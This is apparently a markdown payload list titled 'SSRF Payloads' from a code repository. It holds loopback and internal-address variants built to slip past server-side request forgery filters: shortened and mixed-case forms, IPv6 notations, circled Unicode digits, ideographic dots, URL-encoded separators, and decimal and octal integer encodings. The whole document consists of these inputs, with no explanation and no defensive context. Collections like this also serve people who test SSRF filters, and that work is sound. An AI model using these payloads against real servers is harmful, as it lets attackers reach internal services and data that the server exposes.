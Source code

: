 # SSRF Payloads

>Server side request forgery  

```
127.0.0.1
127.1
```  

```
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
```  

```
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
3232235521
3232235777
2130706433
```  

```
017700000001
```  
